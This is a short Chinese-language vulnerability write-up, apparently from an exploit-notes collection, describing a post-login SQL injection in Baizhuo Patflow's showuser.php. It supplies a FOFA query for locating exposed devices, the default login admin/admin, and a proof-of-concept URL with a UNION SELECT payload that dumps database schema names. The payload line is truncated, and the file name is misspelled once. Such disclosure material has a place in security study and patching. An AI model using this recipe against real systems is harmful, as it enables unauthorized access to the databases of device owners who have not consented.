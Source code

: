 # 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

```
百卓 Patflow
```

## FOFA

```
"Patflow"
```

## 漏洞复现

登录页面

![image-20220519183747439](./images/202205191837588.png)

默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20f
```

![image-20220519183758066](./images/202205191837110.png)